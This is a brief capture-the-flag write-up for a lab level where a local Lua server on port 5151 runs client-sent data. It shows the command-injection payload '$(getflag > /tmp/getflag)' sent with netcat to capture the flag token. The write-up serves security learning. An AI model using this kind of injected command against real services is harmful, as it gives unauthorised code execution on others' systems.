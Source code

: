 ## This repository contains a server-side lua script. This script is running on localhost on port 5151.
## It expects a client to connect and send data.
## Regardless of the data being sent, the server replies with useless messages.
## We have user privileges on this script.
# We decide to exploit the data we send to run getflag.

# We create a file /tmp/script that contains

$(getflag > /tmp/getflag)

cat /tmp/script | nc 127.0.0.1 5151

# This saves our token into /tmp/getflag

